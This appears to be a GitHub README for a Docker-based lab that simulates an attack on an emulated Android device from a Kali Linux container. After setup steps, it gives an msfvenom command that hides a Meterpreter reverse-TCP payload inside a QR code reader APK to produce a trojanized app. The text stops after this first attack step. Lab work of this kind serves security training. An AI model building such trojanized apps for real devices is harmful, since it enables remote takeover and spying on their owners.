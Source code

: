 # androidExploitwithMetasploit

This project aims to simulate an attack scenario against Android devices. Using docker compose file you can simulate a subnet with android device and kali machine inside

## Requirements

1. Docker and docker-compose are installed in your system. Check installation here: https://www.docker.com/
2. This project use a docker image for android device. Check the documentation here: https://github.com/budtmo/docker-android

## Quick start

1. Download Dockerfile and docker-compose.yml from this repository
2. Go inside the directory containing files.
3. Open terminal and run:
```bash
docker-compose up
```
4. Open the browser and check http://localhost:6080 to see android device running.
5. Open terminal and run:
```bash
docker exec -it kali bash
```
6. Now you can interact with kali linux and metasploit-framework

## Attack scenario

1. Create .apk reverce tcp payload with msfvenom command and set LHOST and LPORT. Then save .apk file:
```bash
 msfvenom -p android/meterpreter/reverse_tcp -x app/QRcodeReader.apk LHOST=172.16.238.10 LPORT=4444 -f raw -o malware.apk
```
